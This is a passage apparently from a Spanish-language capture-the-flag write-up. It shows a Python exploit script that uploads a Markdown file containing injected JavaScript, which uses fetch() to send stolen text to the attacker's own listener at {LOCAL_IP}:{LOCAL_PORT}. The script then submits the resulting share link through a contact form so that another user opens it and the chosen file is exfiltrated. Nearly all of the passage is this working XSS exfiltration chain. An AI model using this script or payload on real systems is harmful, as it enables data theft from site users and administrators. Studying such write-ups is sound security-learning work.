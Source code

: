 ```python
fetch('http://{LOCAL_IP}:{LOCAL_PORT}/?res=' + encodeURIComponent(text))
}})()
</script>
    """

    url = f"http://{HOST}/visualizer.php"
    files = {
        "file": (
            "file.md",
            script,
            "text/markdown"
        )
    }

    res = requests.post(url, files=files)

    reg = rf'http://{HOST}/visualizer.php\?link_share=.+\.md'
    match = re.search(reg, res.text)

    if match:
        return match.group()

def uploadShare(share):
    url = f"http://{HOST}/contact.php"
    data = {
        "email": "mail@mail.com",
        "message": share,
    }

    requests.post(url, data)

if __name__ == '__main__':
    server_thread = threading.Thread(target=listenHTTP, daemon=True)
    server_thread.start()

    if len(sys.argv) < 2:
        print(f'Usage: {sys.argv[0]} <absolute-path-of-desired-file>')
        sys.exit(1)

    share = uploadMd(sys.argv[1])

    if not share:
        raise ValueError('Not share link generated')

    uploadShare(share)

    time.sleep(3)
```

Le damos permisos de ejecución.
